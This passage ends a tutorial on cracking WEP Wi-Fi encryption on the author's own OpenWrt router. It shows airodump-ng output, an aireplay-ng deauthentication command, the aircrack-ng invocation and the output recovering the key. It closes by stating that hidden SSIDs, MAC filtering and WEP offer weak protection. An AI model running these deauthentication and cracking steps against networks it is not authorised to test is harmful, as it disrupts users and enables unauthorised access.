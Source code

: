      BSSID              STATION            PWR   Rate    Lost    Frames  Probe                        
                                                                                                      
     10:FE:ED:61:FA:E8  00:26:37:97:9A:7E  -56   11e-11      0    46737                              

Technically we could listen on passively and collect packets as they go - but if it's a quiet network, it'll take ages for us to get enough packets to start cracking the key. As described on the [aircrack wiki](http://www.aircrack-ng.org/doku.php?id=simple_wep_crack), normal traffic does not generate IV packets quickly. What does however, is client authentication. As this is our own network and we're not trying to be subtle, we can force clients to de-authenticate (cf above when we used `aireplay-ng -0 1 -a 10:fe:ed:61:fa:e8 mon0` to blindly broadcast deauth packets to every client).

The question is though, how many IVs are sufficient. It seems to really depend - sometimes you might get lucky and only need a hanful - others you might need to just wait it out. I set up the router to use a 40bit key because it was taking too long with 104bit one (heh).

Once you feel you have collected enough, `ctrl-c` airodump-ng (note you can re-run it, and it will just keep incrementing the packet dumps). Side note - in the interest of saving space, you can ask airodump-ng to only capture IVs with the `-ivs` flag. We can now try to crack the key using `aircrack-ng OpenWrt.dump-0*.ivs`.

I was fairly lucky, and the tool managed to recover the key with only 768 IVs:

                                          Aircrack-ng 1.2 beta1
    
    
                              [00:00:03] Tested 529255 keys (got 768 IVs)
    
       KB    depth   byte(vote)
        0   86/ 87   F6(1024) 08( 768) 0A( 768) 15( 768) 1A( 768) 1B( 768) 1C( 768) 
        1    5/  8   AA(1792) 05(1536) 17(1536) 26(1536) 4F(1536) 64(1536) 65(1536) 
        2    8/  9   E0(1792) 33(1536) 37(1536) 48(1536) 7E(1536) 98(1536) BA(1536) 
        3   30/  3   F5(1536) 15(1280) 1B(1280) 1C(1280) 50(1280) 57(1280) 5A(1280) 
        4    8/  4   FA(1792) 13(1536) 22(1536) 45(1536) 53(1536) 62(1536) AE(1536) 
    
                         KEY FOUND! [ 69:72:69:73:68 ] (ASCII: irish )
      Decrypted correctly: 100%

And voila - key found!

### Wrapping up ###

We've briefly shown that security through obscurity doesn't work - hidden SSIDs don't stay hidden for long. Likewise, MAC address filtering can be bypassed easily. And finally, Wired Equivalent Privacy (WEP) doesn't offer much privacy at all. Not to say it's useless, but just like medieval fortifications, security is best done through layers. And for the rest of us, there's always WPA2!
